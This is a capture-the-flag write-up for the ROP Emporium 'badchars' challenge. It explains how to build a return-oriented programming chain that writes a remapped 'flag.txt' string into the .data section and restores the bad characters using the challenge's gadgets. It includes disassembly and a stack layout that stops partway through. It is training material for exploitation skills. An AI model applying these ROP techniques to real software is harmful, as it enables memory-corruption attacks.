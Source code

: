 ```sh
```
`.data` section is writable so let's take its address (`0x0000000000601028`).


## Deal with badchars

Run the executable to inspect the badchars:
```sh
$ ./badchars 
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> 
```

The `usefulGadgets`'s which ROP Emporium gives us will come in handy, so disassemble it.

```asm
pwndbg> disass usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     xor    BYTE PTR [r15],r14b
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     add    BYTE PTR [r15],r14b
   0x000000000040062f <+7>:     ret    
   0x0000000000400630 <+8>:     sub    BYTE PTR [r15],r14b
   0x0000000000400633 <+11>:    ret    
   0x0000000000400634 <+12>:    mov    QWORD PTR [r13+0x0],r12
   0x0000000000400638 <+16>:    ret    
   0x0000000000400639 <+17>:    nop    DWORD PTR [rax+0x0]
End of assembler dump.
```

Badchars are applied not only to parameters but addresses too. For the latter make use of `pwntools` which filters out gadgets that contains badchars, passing them as parameters in the `ROP` object.

For the former I build a mapping and an unmapping function. 
- The mapping function maps a badchar to an available char and is applied when a string is inserted into the ROP chain.
- In the other hand, the `unmap` function exploits gadgets to change the string once is in memory, restoring its original content. To do that, disasseble the `usefulGadgets` function and use this gadget:
`sub BYTE PTR [r15],r14b; ret`. The unmapping is done by substracting the decimal ASCII value of the mapped char with the original one.

Now we have all the elements to build a ROP chain.
Here's how the stack should be structured before the ret instruction in the ```pwnme``` function:

```asm
|     "A" * offset      |
| &pop_r12_r13_r14_r15  |
|      "flbh/tyt"       |
|       str_addr        |
|    "JUNKJUNK" * 2     |
|       0x400634        |
|                       |
|     &pop_r14_r15      |
|         0x1           |
|    str_addr + 0x2     |
|       0x400630        |
|    rop.pop_r14_r15    |
|         0x1           |
|    str_addr + 0x3     |
|       0x400630        |
|    rop.pop_r14_r15    |
|         0x1           |
|    str_addr + 0x4     |
```
